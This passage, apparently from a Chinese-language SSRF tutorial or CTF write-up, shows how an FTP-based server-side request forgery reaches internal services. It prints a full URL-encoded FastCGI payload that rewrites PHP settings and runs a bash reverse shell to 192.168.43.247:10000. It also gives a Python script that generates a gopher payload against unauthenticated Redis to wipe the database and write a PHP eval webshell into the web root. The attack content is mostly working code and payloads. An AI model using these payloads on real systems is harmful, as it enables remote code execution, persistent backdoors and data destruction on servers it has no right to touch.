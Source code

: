 运行脚本：`python3 ftp.py:`

然后传参：data的赋值为上面的payload的

```
/?file=ftp://aaa@192.168.43.247:23/123&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH106%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00j%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.43.247/10000%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

然后就反弹shell了

###  FTP打内网redis

假设内网中存在 Redis 并且可以未授权访问的话，我们也可以直接攻击 Redis，实现写入 Webshell、SSH 秘钥、计划任务等。

首先编写脚本生成攻击 Redis 的 Payload：

```python
import urllib.parse
protocol="gopher://"
ip="127.0.0.1"
port="6379"
shell="\n\n<?php eval($_POST[\"cmd\"]);?>\n\n"
filename="1.php"
path="/var/www/html"
passwd=""        #如果无密码就不加，如果有密码就加
cmd=["flushall",
     "set 1 {}".format(shell.replace(" ","${IFS}")),
     "config set dir {}".format(path),
     "config set dbfilename {}".format(filename),
     "save"
     ]
if passwd:
    cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
    CRLF="\r\n"
    redis_arr = arr.split(" ")
    cmd=""
    cmd+="*"+str(len(redis_arr))
    for x in redis_arr:
        cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
    cmd+=CRLF
    return cmd

if __name__=="__main__":
    for x in cmd:
        payload += urllib.parse.quote(redis_format(x))
    print(urllib.parse.quote(payload))


```
